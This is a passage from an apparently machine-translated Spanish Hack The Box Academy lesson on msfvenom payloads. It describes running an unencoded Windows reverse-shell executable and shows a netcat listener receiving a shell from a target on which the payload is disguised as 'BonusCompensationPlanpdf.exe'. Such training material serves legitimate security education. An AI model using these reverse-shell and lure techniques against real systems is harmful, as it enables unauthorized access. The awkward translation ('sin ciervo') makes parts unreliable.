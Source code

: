 La sintaxis del comando se puede descomponer de la misma manera que lo hicimos anteriormente. Las únicas diferencias, por supuesto, son la`platform` (`Windows`) y formato (`.exe`) de la carga útil.

---

# **Ejecutando una carga útil simple sin ciervo en un sistema de Windows**

Esta es otra situación en la que debemos ser creativos para obtener esta carga útil entregada a un sistema objetivo. Sin ninguno`encoding`o`encryption`, la carga útil de esta forma seguramente sería detectada por Windows Defender AV.

![](https://academy.hackthebox.com/storage/modules/115/winpayload.png)

Si el AV estaba deshabilitado, todo lo que el usuario debería hacer es hacer doble clic en el archivo para ejecutar y tendríamos una sesión de shell.

Elaboración de cargas útiles con msfvenom

```
xnoxos@htb[/htb]$ sudo nc -lvnp 443Listening on 0.0.0.0 443
Connection received on 10.129.144.5 49679
Microsoft Windows [Version 10.0.18362.1256]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Users\htb-student\Downloads>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is DD25-26EB

 Directory of C:\Users\htb-student\Downloads

09/23/2021  10:26 AM    <DIR>          .
09/23/2021  10:26 AM    <DIR>          ..
09/23/2021  10:26 AM            73,802 BonusCompensationPlanpdf.exe
               1 File(s)         73,802 bytes
               2 Dir(s)   9,997,516,800 bytes free
```